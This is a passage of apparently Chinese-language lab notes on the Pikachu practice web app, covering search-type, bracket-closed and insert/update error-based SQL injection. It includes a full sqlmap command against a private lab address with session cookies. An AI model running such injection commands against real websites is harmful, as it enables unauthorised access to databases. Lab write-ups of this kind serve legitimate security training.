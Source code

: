 ## 搜索型注入

```cmd
python3 sqlmap.py -u "http://192.168.10.52/pkq/vul/sqli/sqli_search.php?name=vin&submit=%E6%90%9C%E7%B4%A2" --cookie "ocKey=660cdd6ca5dfc10527d75f6ec6c469c8; PHPSESSID=b19evnjk8vp4qmjhk3fj8ka6v4" --thread 8 --dbms mysql --batch
```

![](..\img\Pikachu\2022-06-27-17-16-19.png)

## xx型注入

闭合符为')

![](..\img\Pikachu\2022-06-27-17-34-10.png)

## "insert/upadte"注入

insert和update不像select语句有返回结果，可以使用报错注入，破坏原sql语句使其发生报错并回显
